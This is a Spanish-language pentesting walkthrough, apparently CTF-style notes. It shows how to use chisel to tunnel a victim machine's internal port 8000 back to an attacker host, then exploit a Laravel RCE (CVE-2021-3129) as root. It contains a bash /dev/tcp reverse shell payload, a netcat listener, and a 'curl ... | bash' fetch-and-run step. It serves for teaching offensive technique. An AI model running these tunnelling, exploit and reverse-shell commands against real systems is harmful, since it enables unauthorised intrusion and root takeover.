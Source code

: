 ```yaml
---
icon: right-to-line
---
```


# Port Forwarding

## <mark style="color:purple;">Port Forwarding</mark>

Si en una de las maquinas encontramos algun puerto `8000` de forma interna con un `Lavel v8` u otra version que pueda ser explotable, podemos hacer esta tecnica con lagunos repositorios de GitHub o para algun otro puerto que queramos transladar a nuestro `Host` para operar desde ahi ya que sirve para lo mencionado anteriormente (Esta tecnica sirve para transladar algun puerto o depende de lo que quieras hacer a tu `Host` para operar desde ahi mas facilmente)

URL = [Chisel Pagina](https://github.com/jpillora/chisel)

Utilizaremos la herramienta `chisel` que es la mas utilizada para este tipo de tecnicas y sirve para abrirnos una especie de servidor para que podamos interactuar desde nuestro `Host` como si fuera una `Reverse Shell` haciendo una especie de `tunel` hacia tu `host`...

Una vez clonado en tu maquina `host` hacemos lo siguiente para montarlo...

```shell
go build -ldflags "-s -w" .
```

```shell
upx chisel
```

Con el siguiente comando veremos lo que pesa la herramienta `chisel`...

```shell
du -hc chisel
```

Por lo que abrimos un servidor de `python3` para pasarnos el `chisel` a nuestra maquina victima...

```shell
python3 -m http.server 80
```

> Maquina victima

```shell
wget http://<IP>/chisel
```

```shell
chmod +x chisel
```

Ya ahora para pasarnos el puerto que queremos por ejemplo el puerto `8000` a nuestra maquina `Host` haremos lo siguiente...

> Maquina Host

```shell
./chisel <SERVER_NAME> --reverse -p <PORT>
```

```shell
./chisel server --reverse -p 1234
```

Donde pone `server` es el nombre que le quieras dar a tu "Servidor" y despues de `-p` ponemos el puerto al que queremos abrir el server por ejemplo el `1234`...

Y con eso ya estaria montado el servidor y abierto...

> Maquina victima

```shell
./chisel client <IP>:<SERVER_PORT> R:<TRANSFER_PORT>:127.0.0.1:<PORT>
```

Adaptandolo a nuestro ejemplo quedaria de la siguiente manera...

```shell
./chisel client <IP>:1234 R:8000:127.0.0.1:8000
```

Lo que estamos haciendo aqui es conectarnos desde la maquina victima de tipo `cliente` a nuestra `IP` de la maquina `Host` donde tenemos el servidor corriendo en el puerto `1234` de manera que el parametro `R:` significa que nos estamos pasando en forma de tunel el puerto `8000` de la maquina victima con la `IP` del `localhost` a nuestro puerto `8000` de la maquina `Host`, por lo que una vez echo esto si nos vamos a nuestra maquina `Host` y buscamos por el puerto `8000` en este caso pertenece a una pagina web...

```
URL = http://127.0.0.1:8000/
```

Nos mostrara el contenido del puerto `8000` que contiene la maquina victima...

Por lo que si tiene alguna vulnerabilidad podremos explotarla desde nuestro `Host`...

> EJEMPLO

Si esta pagina tiene un `CMS` llamado `Laravel v8` como ya dije anteriormente puede ser ecplotado por un exploit de GitHub, ya que lo esta ejecutando `root` desde la maquina victima...

URL = https://github.com/nth347/CVE-2021-3129\_exploit

Si esto nos lo clonamos en nuestro `Host` y lo explotamos desde nuestro `Host` lo estaremos haciendo como si fuera en la maquina victima y como lo esta ejecutando `root` podremos ser `root` ya que todo lo que toquemos en ese puerto transformado en un tunel se ejecutara en la maquina victima...

```shell
python3 exploit.py http://127.0.0.1:<TUNEL_PORT> Monolog/RCE1 <COMMAND>
```

```shell
python3 exploit.py http://127.0.0.1:8000 Monolog/RCE1 whoami
```

```shell
python3 exploit.py http://127.0.0.1:8000 Monolog/RCE1 'ifconfig'
```

Con el `ifconfig` veremos la `IP` de la maquina victima con esto ya confirmamos que se esta ejecutando desde la maquina victima...

Y si todo funciona veremos que es `root` el que lo esta ejecutando, por lo que haremos una `Reverse Shell` con `curl`...

Crearemos el archivo `index.html`...

```shell
nano index.html

#Contenido del nano

#!/bin/bash

bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

Guardamos el archivo y ahora lo ejecutaremos desde `curl` con el exploit el cual nos deja ejecutar comandos...

Donde tengamos el archivo abrimos un servidor de `python3` de la siguiente manera...

```shell
python3 -m http.server 80
```

Una vez hecho eso, estaremos a la escucha...

```shell
nc -nlvp <PORT>
```

Y por ultimo lo ejecutaremos con `curl` de la siguiente forma mediante el exploit...

```shell
curl http://<IP>/ | bash
```

Y con esto ya tendriamos la shell autenticada como `root` ya que lo esta ejecutando el usuario `root` todo esto y como si se estuviera ejecutando desde la maquina victima...
